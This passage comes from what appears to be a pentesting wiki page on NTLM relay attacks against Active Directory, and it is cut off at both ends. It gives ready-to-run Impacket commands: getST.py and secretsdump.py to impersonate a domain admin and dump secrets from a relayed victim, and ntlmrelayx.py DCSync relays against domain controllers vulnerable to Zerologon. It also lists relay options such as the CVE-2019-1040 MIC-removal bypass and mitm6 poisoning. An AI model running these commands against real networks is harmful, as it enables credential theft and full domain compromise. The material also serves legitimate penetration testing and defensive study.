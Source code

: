 If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}

{% tab title="DCSync" %}
A [DCSync](../credentials/dumping/dcsync.md) can also be operated with a relayed NTLM authentication, but only if the target domain controller is vulnerable to [Zerologon](../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}
{% endtabs %}

### Tips & tricks

The ntlmrelayx tool offers features making it a very valuable asset when pentesting an Active Directory domain:

* It can work with mitm6 \(for [DHCPv6 + DNS poisoning](../mitm-and-coerced-authentications/#ipv6-dns-poisoning)\) by enabling IPv6 support with the `-6` option \(IPv6 support is not required since most hosts will send IPv4 but using this option is recommended since it will allow relay servers to work with IPv4 and IPv6\)
* It supports SMB2. It can be enabled with the `-smb2support` option
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "cross-protocols unsigning relays" \(e.g. **SMB to SMB-with-required-signing, or SMB to LDAP/S\)**
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`, and the `-w` option can be set to watch the target file for changes and update target list automatically
* It has the ability to dump domain info when relaying to LDAP\(S\)
* It has the ability to relay connections for specific target users to be defined in the targets file
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets, see below

{% hint style="info" %}
Thanks to [the "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture a response \(i.e. LM or NTLM hash\) with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}

The targets file used with the `-tf` option can contain the following
